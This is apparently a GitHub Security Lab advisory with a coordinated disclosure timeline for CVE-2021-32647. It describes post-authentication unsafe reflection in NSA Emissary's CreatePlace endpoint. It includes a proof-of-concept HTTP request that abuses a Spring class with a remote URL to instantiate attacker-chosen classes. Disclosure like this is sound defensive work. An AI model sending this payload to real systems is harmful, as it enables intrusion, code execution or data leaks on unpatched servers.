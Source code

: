 <header class="post-header d-block mb-6">
      <div class="date text-mono f5 my-3">July 16, 2021</div>
      <h1 class="my-2 h00-mktg lh-condensed">GHSL-2021-073: Post-authentication unsafe reflection in NSA Emissary - CVE-2021-32647</h1>

      
      
      
      
      

      

      <a target="_blank" class="sc-frDJqD SgxRc d-inline-flex flex-row flex-items-center text-gray" href="https://github.com/pwntester">
        <img class="mr-3" src="https://avatars.githubusercontent.com/u/125701?s=35" height="35" width="35">
        <span>Alvaro Munoz</span>
      </a>
    </header>

    <main id="content" class="markdown-body" aria-label="Content">
      
<h2 id="coordinated-disclosure-timeline">Coordinated Disclosure Timeline</h2>
<ul>
  <li>2021-04-27: Report sent to EmissarySupport@evoforge.org</li>
  <li>2021-05-28: <a href="https://github.com/NationalSecurityAgency/emissary/security/advisories/GHSA-ph73-7v9r-wg32">Advisory</a> is published</li>
</ul>

<h2 id="summary">Summary</h2>
<p>A logged-in user can invoke the constructor of some classes with untrusted data.</p>

<h2 id="product">Product</h2>
<p>National Security Agency Emissary</p>

<h2 id="tested-version">Tested Version</h2>
<p>6.4.0</p>

<h2 id="details">Details</h2>

<p>The <a href="https://github.com/NationalSecurityAgency/emissary/blob/30c54ef16c6eb6ed09604a929939fb9f66868382/src/main/java/emissary/server/mvc/internal/CreatePlaceAction.java#L36"><code class="language-plaintext highlighter-rouge">CreatePlace</code></a> REST endpoint accepts an <code class="language-plaintext highlighter-rouge">sppClassName</code> parameter which is used to load an arbitrary class. This class is later instantiated using a constructor with the following signature: <code class="language-plaintext highlighter-rouge">&lt;constructor&gt;(String, String, String)</code>. An attacker may find a gadget (class) in the application classpath that could be used to achieve Remote Code Execution (RCE) or disrupt the application.</p>

<div class="language-plaintext highlighter-rouge"><div class="highlight"><pre class="highlight"><code>POST /emissary/CreatePlace.action HTTP/1.1
Host: localhost:8001
x-requested-by: 
Content-Type: application/x-www-form-urlencoded
Content-Length: 142

sppClassName=org.springframework.context.support.FileSystemXmlApplicationContext&amp;sppLocation=bar.bar.bar.http%3A%2F%2Fbar.com&amp;sppDirectory=foo
</code></pre></div></div>

<h4 id="impact">Impact</h4>
<p>Even though the chances to find a gadget (class) that allow arbitrary code execution are low, an attacker can still find gadgets that could potentially crash the application or leak sensitive data.</p>

<h2 id="cve">CVE</h2>
<ul>
  <li>CVE-2021-32647</li>
</ul>

<h2 id="resources">Resources</h2>
<ul>
  <li><a href="https://github.com/NationalSecurityAgency/emissary/security/advisories/GHSA-ph73-7v9r-wg32">https://github.com/NationalSecurityAgency/emissary/security/advisories/GHSA-ph73-7v9r-wg32</a></li>
</ul>

<h2 id="credit">Credit</h2>
<p>This issue was discovered and reported by GHSL team member <a href="https://github.com/pwntester">@pwntester (Alvaro Muñoz)</a>.</p>

<h2 id="contact">Contact</h2>
<p>You can contact the GHSL team at <code class="language-plaintext highlighter-rouge">securitylab@github.com</code>, please include a reference to <code class="language-plaintext highlighter-rouge">GHSL-2021-073</code> in any communication regarding this issue.</p>


   